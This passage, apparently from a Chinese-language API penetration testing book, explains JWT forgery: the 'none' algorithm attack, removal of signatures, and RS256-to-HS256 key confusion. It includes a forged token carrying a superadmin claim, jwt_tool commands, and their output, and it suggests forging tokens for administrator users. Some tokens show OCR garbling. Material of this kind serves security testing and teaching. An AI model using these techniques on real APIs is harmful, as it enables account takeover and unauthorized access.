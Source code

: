 一旦你编辑了有效载荷，使用 Burp Suite 的 Decoder 对有效载荷进行 base64 编码；然后将其插入到 JWT 中。重要的是，由于算法设置为`"none"`，任何存在的签名都可以被移除。换句话说，你可以移除 JWT 中第三个句点后的所有内容。将 JWT 发送给提供者并检查你是否获得了对 API 的未经授权的访问。

### 算法切换攻击

也有可能 API 提供者没有正确检查 JWT。如果是这种情况，我们可能能够欺骗提供者接受一个更改了算法的 JWT。

你首先应该尝试的事情之一是发送没有包含签名的 JWT。可以通过完全删除签名并保留最后一个句点来实现，如下所示：

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJoYWNrYXBpcy5pbyIsImV4cCI6IDE1ODM2Mzc0ODgsInVzZXJuYW1lIjoiU2N1dHRsZXBoMXNoIiwic3VwZXJhZG1pbiI6dHJ1ZX0.
```

如果这不成功，尝试将算法头字段更改为`"none"`。解码 JWT，更新`"alg"`值为`"none"`，然后对头部进行 base64 编码，并将其发送给提供者。如果成功，转到 None 攻击。

```
{
"alg": "none"
"typ": "JWT"
}
```

你可以使用 JWT_Tool 创建各种令牌，算法设置为`"none"`：

```
$ **jwt_tool <JWT_Token> -X a**
```

使用此命令将自动创建多个 JWT，它们应用了不同形式的“无算法”。

比提供者接受没有算法的情况更可能的场景是他们接受多种算法。例如，如果提供者使用 RS256，但没有限制可接受的算法值，我们可以将算法更改为 HS256。这个方法很有用，因为 RS256 是非对称加密方案，这意味着我们需要提供者的私钥和公钥来准确地对 JWT 签名进行哈希。而 HS256 是对称加密，所以签名和令牌验证使用同一个密钥。如果你能发现提供者的 RS256 公钥，然后将算法从 RS256 切换为 HS256，可能有机会将 RS256 公钥作为 HS256 密钥来利用。

JWT_Tool 可以让这个攻击变得稍微简单一些。它使用以下格式`jwt_tool <JWT_Token> -X k -pk public-key.pem`，如下面所示。你需要将捕获的公钥保存为文件，存储在你的攻击机器上。

```
$ **jwt_tool eyJBeXAiOiJKV1QiLCJhbGciOiJSUZI1Ni 19.eyJpc3MiOi JodHRwOlwvxC9kZW1vLnNqb2VyZGxhbmdrzwiwZXIubmxcLyIsIm1hdCI6MTYYCJkYXRhIjp7ImhlbGxvijoid29ybGQifx0.MBZKIRF_MvG799nTKOMgdxva_S-dqsVCPPTR9N9L6q2_10152pHq2YTRafwACdgyhR1A2Wq7wEf4210929BTWsVk19_XkfyDh_Tizeszny_GGsVzdb103NCITUEjFRXURJ0-MEETROOC-TWB8n6wOTOjWA6SLCEYANSKWaJX5XvBt6HtnxjogunkVz2sVp3 VFPevfLUGGLADKYBphfumd7jkh80ca2lvs8TagkQyCnXq5VhdZsoxkETHwe_n7POBISAZYSMayihlweg -x k-pk public-key-pem**
Original JWT:
File loaded: public-key. pem
jwttool_563e386e825d299e2fc@aadaeec25269 - EXPLOIT: Key-Confusion attack (signing using the Public key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] ey JoexAiOiJK1QiLCJhbGciOiJIUZI1NiJ9.eyJpc3MiOiJodHRwOi8vZGVtby5zam91cmRsYW5na2VtcGVyLmSsLyIsIm1hdCI6MTYyNTc4NzkzOSwizhlbGxvIjoid29ybGQifxo.gyti NhqYsSiDIn10e-6-6SfNPJle-9EZbJZjhaa30
```

一旦你运行了命令，JWT_Tool 将提供一个新的令牌，可以用于对抗 API 提供者。如果提供者存在漏洞，你将能够劫持其他令牌，因为你现在拥有签名令牌所需的密钥。尝试重复这个过程，这次基于其他 API 用户，尤其是管理员用户创建一个新令牌。

### JWT 破解攻击
